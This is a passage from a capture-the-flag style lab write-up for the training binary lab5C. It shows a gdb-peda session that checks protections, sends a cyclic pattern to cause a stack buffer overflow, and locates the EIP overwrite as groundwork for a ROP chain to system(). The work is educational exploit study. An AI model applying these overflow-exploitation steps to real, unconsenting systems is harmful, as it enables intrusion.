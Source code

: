 ```c
    copytoglobal();

    return EXIT_SUCCESS;
}
```

We can already see that there will be an overflow if we send too much data. Now, we just need to build find how many bytes are necessry to overwrite **EIP** and build a ROP chain.

## Dynamic Analysis

Here, we'll create a pattern and send it as input to the binary.

```nasm
$ gdb -q ./lab5C
Reading symbols from ./lab5C...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwA'
gdb-peda$ r < <(python -c "print('AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwA')")
Starting program: /levels/lab05/lab5C < <(python -c "print('AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwA')")
I included libc for you...
Can you ROP to system()?

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x20 (' ')
EBX: 0x41415341 ('ASAA')
ECX: 0x0
EDX: 0x804a060 ("AAA%AAsAABAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlA")
ESI: 0x5441416f ('oAAT')
EDI: 0x41704141 ('AApA')
EBP: 0x41415541 ('AUAA')
ESP: 0xbffff620 ("AArAAWAAsAAXAAtAAYAAuAAZAAvAAwA")
EIP: 0x56414171 ('qAAV')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x56414171
[------------------------------------stack-------------------------------------]
0000| 0xbffff620 ("AArAAWAAsAAXAAtAAYAAuAAZAAvAAwA")
0004| 0xbffff624 ("AWAAsAAXAAtAAYAAuAAZAAvAAwA")
0008| 0xbffff628 ("sAAXAAtAAYAAuAAZAAvAAwA")
0012| 0xbffff62c ("AAtAAYAAuAAZAAvAAwA")
0016| 0xbffff630 ("AYAAuAAZAAvAAwA")
0020| 0xbffff634 ("uAAZAAvAAwA")
0024| 0xbffff638 ("AAvAAwA")
0028| 0xbffff63c --> 0x417741 ('AwA')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x56414171 in ?? ()
```